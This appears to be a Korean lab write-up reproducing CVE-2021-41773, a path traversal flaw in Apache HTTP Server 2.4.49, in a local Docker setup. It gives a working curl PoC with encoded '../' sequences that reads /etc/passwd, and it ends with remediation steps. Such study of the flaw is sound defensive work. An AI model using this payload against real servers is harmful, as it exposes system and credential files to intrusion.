



# CVE-2021-41773

## 1. 취약점 요약

- **취약점명** : CVE-2021-41773
- **대상** : Apache HTTP Server 2.4.49
- **취약점 유형** : Path Traversal
- **위험도(CVSS v3.1)** : 7.5 (High)

Apache HTTP Server 2.4.49의 경로 정규화(Path Normalization) 오류로 인해 공격자가 웹 루트 밖의 파일에 접근할 수 있는 취약점이다. 취약한 환경에서는 `/etc/passwd`와 같은 시스템 파일이 노출될 수 있다.

---

# 2. 환경 구성

| 항목 | 내용 |
|------|------|
| Host OS | Windows 11 |
| VM | Ubuntu 24.04 (VirtualBox) |
| Docker | Docker, Docker Compose |
| Web Server | Apache HTTP Server 2.4.49 |

---

# 3. 취약 조건

- Apache HTTP Server 2.4.49 사용
- Docker 환경이 정상적으로 실행 중일 것
- 공격자가 HTTP 요청을 보낼 수 있는 환경

---

# 4. 재현 절차

1) 취약 환경 실행

```bash
docker compose up -d
```

 2) 컨테이너 실행 확인

```bash
docker ps
```

 3) 웹 서버 접속

```
http://127.0.0.1:8080
```

# 5. PoC 코드

```bash
curl -v --path-as-is http://127.0.0.1:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

---

# 6. 실행 결과

PoC 실행 결과 `/etc/passwd` 파일이 정상적으로 출력되었으며, `HTTP/1.1 200 OK` 응답을 확인하였다.

### Docker 실행



### PoC 실행



### 실행 결과



---

# 7. 대응 방안

- Apache HTTP Server를 2.4.51 이상으로 업데이트한다.
- 최신 보안 패치를 적용한다.
- 불필요한 CGI 기능은 비활성화한다.
- 웹 서버 접근 권한을 최소 권한으로 설정한다.
